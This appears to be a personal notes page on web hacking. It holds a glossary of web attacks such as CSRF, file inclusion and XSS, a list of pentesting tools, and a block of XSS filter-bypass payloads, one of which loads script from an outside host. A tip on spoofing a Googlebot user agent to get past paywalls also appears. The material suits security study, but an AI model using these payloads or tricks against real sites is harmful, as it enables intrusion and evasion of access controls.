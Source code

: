 # Web Hacking

## Quick Tips

* [Index of all web client & server security topics](https://portswigger.net/web-security/all-topics)
* Where to look = source code (form input/hidden fields, directories & indexes), URL (parameters), cookie (-stored strings), _robots.txt_, _.htaccess_ & _.htpasswd_
* Access paywalled research papers = install a useragent switcher extension and set it to Googlebot (they let SEs read their content)
  * <https://www.reddit.com/r/reddit.com/comments/6o84t/who_else_is_sick_of_sites_hosting_research_papers/c04f3xz>

## Glossary

* **Clickjacking** = tricking user into clicking on something unintended (eg Facebook likejacking, where hidden button overlay induces a pagelike)
* **C/XSRF** (Cross-Site Request Forgery) = coerces a victim into browsing a legit page s/he's currently logged in via a specially crafted URL with parameters having an immediate effect
  * Caused by a lack of mechanisms to check the source of a request (URL referer or generated form token)
* **Directory Traversal** = abuses an input expecting eg a filename with a more elaborate parent hierarchy traversing path (to something interesting eg a filesystem index or password file)
* **File Inclusion** = abuses a page including another page (even PHP scripts) via its URL, loading/executing them with no boundaries/filters in place, bypassing same website policy
  * **Local** (LFI) = only local files are allowed, could still be used by files whose content can be maniplated by attacker (eg access logs)
  * **Remote File Inclusion** (RFI) = any remote file/page can be included (eg `index.php?page=http://www.google.com`, google them via `inurl:"index.php?page="`)
* **XSS** (Cross-Site Scripting) = abuses a legit page's lack of input (URL, form field) sanitization to insert a malicious (JS) script, accounts for 84% of all security vulnerabilities
  * **Persistent** = the script is saved and served back to the victim when she browses a page displaying unsanitized content (eg _MMQ_)
  * **Non-Persistent** = coerces a victim into browsing a volatile forged (**GET/POST**) URL holding payload as parameter which get displayed on a page without sanitization
    * Eg a (lousy) search engine results page: _You searched: `javascript:alert('oh no');`_

## Tools

* _BeEF_ (The Browser EXploitation Framework) = pentesting tool focusing on web browser
* _Burp Suite Scanner_ (by _PortSwigger_) = web app vulnerability testing/scanning graphical tool, server-side vulnerabilities, Interactive Application Security Testing (IAST), web proxy, web app crawler
* _CeWL_ (Custom Word List generator) = crawls & extracts a website's keywords, to feed as contextal passwords fragments into a cracker
* `dirb` (directory buster) = scans all (potentially nonreferenced) files/pages on a website via a dictionary/wordlist
* _gobuster_ = scans all (potentially nonreferenced) files/pages on a website via a wordlist
* _IronWASP_ = open-source web app vulnerability testing/scanning, reports, extensible
* _OWASP Zap_ = web app security testing, AJAX Spidering, Fuzzing, REST APIs testing, active/passive scan, Filters, Anti-CSRF tokens, WebSocket testing, HTTP sessions, Spider

## Payloads

### XSS

Examples (different ways to bypass input sanitization):

```PHP
page.php?q="><script>alert('The Hacker News')</script>
page.php?q="><script>alert("The Hacker News")</script>
page.php?q="><script>alert("The Hacker News");</script>
page.php?q="><script>alert(/The Hacker News");</script>
page.php?q=//"><script>alert(/The Hacker News/);</script>
page.php?q=abc<script>alert(/The Hacker News/);</script>
page.php?q=abc"><script>alert(/The Hacker News/);</script>
page.php?q=abc"></script><script>alert(/The Hacker News/);</script>
page.php?q=abc//abc"></script>alert(/The Hacker News/);</script>
page.php?q=000"><script></script><script>alert(The Hacker News);</script>
page.php?q=000abc</script><script>alert(/The Hacker News/);</script>
page.php?q=--<script>"></script>alert(/The Hacker News/);</script>
page.php?q=pwned<script>document.write('The Hacker News');</script>
page.php?q=pwned</script><script>document.write(The Hacker News);</script>
page.php?q=pwned')alert(The Hacker News);//
page.php?q=pwned";)alert(The Hacker News);//
page.php?q=pwned");alert(/The Hacker News/);//
page.php?q=pwned//"></script><script>location.href='javascript:alert(/The Hacker News/);</script>
page.php?q="><img src='javascript:alert('The Hacker News');'>
page.php?q="><script src='http://malicous js'</script>
```

